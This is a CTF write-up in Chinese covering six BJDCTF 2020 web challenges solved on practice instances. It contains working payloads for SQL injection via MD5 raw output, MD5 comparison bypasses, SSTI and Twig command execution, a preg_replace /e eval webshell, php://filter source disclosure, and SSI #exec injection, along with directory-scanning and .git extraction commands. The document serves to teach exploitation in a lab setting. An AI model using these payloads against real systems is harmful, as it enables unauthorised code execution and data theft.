

# BJDCTF 2020

## Web

### EasyMD5

进入后通过 Response Headers 可以看到 `Hint: select * from 'admin' where password=md5($pass,true)`

通过百度可知输出格式为原始 16 字符二进制格式，分析上述 SQL 语句可知得让语句变为 `select * from 'admin' where password='or'1` 得格式，通过舍友得知了一个”万能密码 `ffifdyop` “。通过输入框输入 `ffifdyop` 可得回显，并在源代码中包含下一关的提示。

```php
$a = $GET['a'];
$b = $_GET['b'];
​
if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

通过分析可得需要两个不同的数但 md5 计算后相同的值，由于 md5() 函数进行的是弱比较，因此可以通过 0e 或者数组绕过判断

构造 payload `a=s878926199a&b=s155964671a` 访问后则跳转到 `levell14.php` 到达下一关

```php
<?php
error_reporting(0);
include "flag.php";
​
highlight_file(__FILE__);
​
if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

分析得到 0e 绕过已经不能用了，因此尝试数组绕过判断

构造 payload `param1[]=1&param2[]=2` 访问就可以获得 flag 力

### The mystery of ip

通过 Hint.php 的源代码可以发现提示“Do you know why i know your ip?”，初步判断是获取 Header 的，因此通过给 Header 头加上 `client-ip: 1` 可以发现这时 IP 回显为 1，说明确实是。接下来就是尝试 SSTI 模板注入，通过传入 `{{7*7}}` 回显 `49` 可以推断出确实能行，于是继续尝试 `{{system('ls /')}}` 可以发现 flag就在根目录中，通过传入 `{{system('cat /flag')}}` 就可以获取到 flag 力

### Mark loves cat

通过查看源代码还有 Header 没有发现什么突破点，直接开始进行目录扫描

```sh
$ python dirsearch.py -u http://d9c7b8a3-3bcd-4552-88f0-9e34b67b516a.node4.buuoj.cn:81/ -t 1 --timeout=2
```

<figure><figcaption></figcaption></figure>

扫描目录后发现 `.git` 泄露，通过 GitHack 来提取文件

```shell
$ githack -o ./ http://0e7e243a-210d-495c-ade2-e31c871a0961.node4.buuoj.cn:81/.git/
```

可以得到 `flag.php`

```php
<?php
$flag = file_get_contents('/flag');
```

`index.php`

```php
    <?php
    include 'flag.php';
    $yds = "dog";
    $is = "cat";
    $handsome = 'yds';
    // $键名 = 键值
    foreach($_POST as $x => $y){
        $$x = $y;
    }
    // $键名 = $键值
    foreach($_GET as $x => $y){
        $$x = $$y;
    }
    foreach($_GET as $x => $y){
        if($_GET['flag'] === $x && $x !== 'flag'){
            exit($handsome);
        }
    }
    if(!isset($_GET['flag']) && !isset($_POST['flag'])){
        exit($yds);
    }
    if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
        exit($is);
    }
    echo "the flag is: ".$flag;
```

通过分析可以得知，body 中的参数 `$键名 = 键值` ，params 中的参数 `$键名 = $键值` 。

其中对于 params 中的参数进行要求：键名为 `flag` 的键值不能为 `flag` ，因此可以通过设置一个变量进行跳过，即 payload `flag=a&a=b` 。body 和 params 中的参数的要求是参数中不能同时存在 `flag` 。最后一关的要求是 body 和 params 中键名为 `flag` 的值不能为 `flag` ，以上要求全部满足则返回变量 `flag` 的值。我们可以通过修改变量 `handsome` 的值为 `flag` 来获取 flag。

payload `handsome=flag&flag=a&a=flag` 就可以得到 flag了。

### ZJCTF，不过如此

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

`I have a dream` 经过 base64 编码后为 `SSBoYXZlIGEgZHJlYW0=`

payload `text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/read=convert.base64-encode/resource=next.php` 可以获得 `next.php` 的源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

通过 Network - Header 可以发现 PHP 版本为 5.6.40，而 `complex()` 函数中的正则替换函数 `preg_replace()` 使用的是 `/e` ，这会使得当作命令来执行。因此当匹配模式改为任何字符串 `\S*` 内容改成 `${eval($_POST[1])}` 就可以写入 shell 了，通过蚁剑连接找到 flag 就行了，payload `\S*=${eval($_POST[1])}`

### Cookie is so stable

打开页面有两个文件 `flag.php` 和 `hint.php` ，从 `hint.php` 可以发现以下提示

```html
<!-- Why not take a closer look at cookies? -->
```

前往 `flag.php` 找 Cookies 为空，随便进行提交后可以发现多了 `user` ，值即刚刚随便提交输入的值 `123` ，并且页面会显示以下内容

```html
<h2>Hello 123</h2>
```

构造 Payload `{{5*5}}` 回显 25 ，存在 SSTI 注入漏洞。

构造 Payload `{{5*'5'}}` 回显 25 ，说明是 Twig 模板。

通过 Hackbar 修改 Cookie 即可得到 flag ，修改内容如下

```url
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

### EasySearch

通过 dirsearch 可以发现 `index.php` 的源码，在 `index.php.swp` 中。

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

首先需要进行 md5 前六位爆破，编写 Python 代码如下。

```python
import hashlib

for i in range(10000000):
    md5 = hashlib.md5(str(i).encode('utf-8')).hexdigest()
    if md5[0:6] == "6d0bc1":
        print(i, md5)

# 2020666 6d0bc1153791aa2b4e18b4f344f26ab4
# 2305004 6d0bc1ec71a9b814677b85e3ac9c3d40
# 9162671 6d0bc11ea877b37d694b38ba8a45b19c
```

通过百度 `.shtml` 可以发现该类型文件是包含有嵌入式服务器方包含（SSI）命令的HTML网页文件。在被传送给用户浏览器之前，服务器会对SHTML文档进行完全地读取、分析以及修改，最后输出静态的网页。因此可以通过控制该文件内容从而执行系统命令获取 flag 。

SSI主要有以下几种用途：

* 显示服务器端环境变量<#echo>
* 将文本内容直接插入到文档中<#include>
* 显示WEB文档相关信息<#flastmod #fsize>（如文件制作日期/大小等）
* 直接执行服务器上的各种程序<#exec>（如CGI或其他可执行程序）
* 设置SSI信息显示格式<#config>（如文件制作日期/大小显示方式）高级SSI可设置变量使用if条件语句。

通过构造 Payload 如下

```
username=<!--%23exec+cmd%3d"ls+/"+-->&password=2020666
```

可以在 Header 得到回显如下

```
Url_is_here: public/8b604896776b2fcee4eaf665d3ba30e4fc2b96f8.shtml
```

通过访问即可得到以下内容

```
Hello,bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

data: Monday, 22-Jan-2024 13:26:40 UTC

Client IP: xxx.xxx.xxx.xxx
```

发现 flag 并不在这，尝试其他目录，可以找到 flag 在上级目录中，通过构造 Payload 如下即可得到 flag 。

```
username=<!--%23exec+cmd%3d"cat+../flag_990c66bf85a09c664f0b6741840499b2"+-->&password=2020666
```
